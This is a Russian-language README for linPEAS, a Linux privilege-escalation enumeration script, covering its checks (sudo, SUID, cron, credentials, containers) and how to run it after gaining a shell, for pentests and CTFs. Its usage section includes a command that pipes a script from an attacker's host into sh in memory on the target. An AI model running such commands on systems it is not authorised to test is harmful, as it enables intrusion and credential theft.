

<p align="center">
  
</p>

# linPEAS — Linux Privilege Escalation Awesome Script

Скрипт для автоматического поиска путей **повышения привилегий в Linux/Unix**
(а также macOS). Запускается на цели после получения первичного shell и выводит
подробный отчёт, где потенциально опасные находки **подсвечены цветом**.

- Часть проекта PEASS-ng: <https://github.com/peass-ng/PEASS-ng>
- Один файл, не требует зависимостей — только `bash`/`sh`.

## Зачем

Вручную проверять десятки векторов эскалации долго и легко что-то пропустить.
linPEAS за один проход собирает и анализирует всё разом, показывая, за что
зацепиться в первую очередь.

## Что проверяет (основное)

- **Sudo**: правила `sudo -l`, опасные бинарники (**GTFOBins**), `LD_PRELOAD`, `sudo` CVE.
- **SUID/SGID**, **capabilities**, необычные права на файлы и папки.
- **Cron**: задачи, доступные на запись скрипты, wildcard-инъекции.
- **Службы и таймеры** systemd, сокеты, D-Bus.
- **Ядро/дистрибутив**: версия и подсказки по известным CVE (эвристически).
- **Креды**: пароли/ключи в конфигах, истории, `.env`, БД, SSH-ключи, файлы бэкапов.
- **Сеть**: слушающие порты, внутренние сервисы, интерфейсы.
- **Docker/LXC/контейнеры**, монтирования, `NFS no_root_squash`.

## Цветовая маркировка (легенда)

- 🔴 **Красный/жёлтый фон** — почти наверняка путь к эскалации (смотреть в первую очередь).
- 🔴 Красный — интересное/потенциально опасное.
- 🟢 Зелёный — обычно безопасно/информационно.

## Где применимо

Пост-эксплуатация в пентесте/CTF после получения shell на Linux-хосте; аудит
собственного сервера на мисконфигурации.

## Как запускать

```bash
# 1) Локально, если файл уже на цели:
./linpeas.sh                       # полный прогон
./linpeas.sh -a                    # максимально полно (all checks, дольше)
./linpeas.sh | tee linpeas.txt     # сохранить вывод в файл
./linpeas.sh -o SysI,Devs          # только выбранные секции

# 2) Не касаясь диска цели (запуск из памяти) — удобно и «тише»:
curl -L <ваш_хост>/linpeas.sh | sh
#   либо поднять http-сервер у себя:  python3 -m http.server 8000

# 3) Доставка на цель, когда нет интернета:
#    scp linpeas.sh user@target:/tmp/  (или через уже полученный вебшелл)
```

Полезные флаги: `-h` — справка, `-a` — все проверки, `-s` — тихий режим,
`-o <секции>` — выбранные модули, `-e` — расширенные проверки.

## Файлы в папке

| Файл | Назначение |
|------|-----------|
| `linpeas.sh` | Полная версия (все проверки, рекомендуется) |
| `linpeas_small.sh` | Облегчённая/быстрая версия — когда важны скорость и размер |

> Скриншот примера вывода (сетевые проверки):
>
> 

---
_Сторонний инструмент PEASS-ng (MIT). Только для авторизованного тестирования / CTF._
